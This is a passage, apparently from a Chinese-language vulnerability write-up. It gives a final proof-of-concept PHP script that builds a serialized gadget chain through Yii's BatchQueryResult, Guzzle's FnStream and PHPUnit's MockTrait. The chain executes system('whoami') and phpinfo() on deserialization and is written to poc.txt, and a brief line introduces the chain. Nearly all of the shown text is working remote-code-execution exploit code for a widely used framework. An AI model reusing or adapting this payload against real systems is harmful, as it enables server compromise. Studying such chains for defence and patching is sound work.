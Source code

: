 最终 poc
------

```php
<?php

namespace PHPUnit\Framework\MockObject{
    class MockTrait {
        private $classCode = "system('whoami');phpinfo();";
        private $mockName = "anything";
    }
}

namespace GuzzleHttp\Psr7 {
    use PHPUnit\Framework\MockObject\MockTrait;
    class FnStream {
        var $_fn_close;

        function __construct() {
            $this->_fn_close = array(
                new MockTrait(),
                'generate'
            );
        }
    }
}

namespace yii\db {
    use GuzzleHttp\Psr7\FnStream;
    class BatchQueryResult {
        // 需要控制的成员属性
        private $_dataReader;

        function __construct() {
            $this->_dataReader  = new FnStream();
        }
    }

    $b = new BatchQueryResult();
    file_put_contents("poc.txt", serialize($b));
}
```

整理一下反序列化链

![009](https://shs3.b.qianxin.com/butian_public/f7c2f1ebbbfb6b056aba1f8d2c6b16f47.jpg)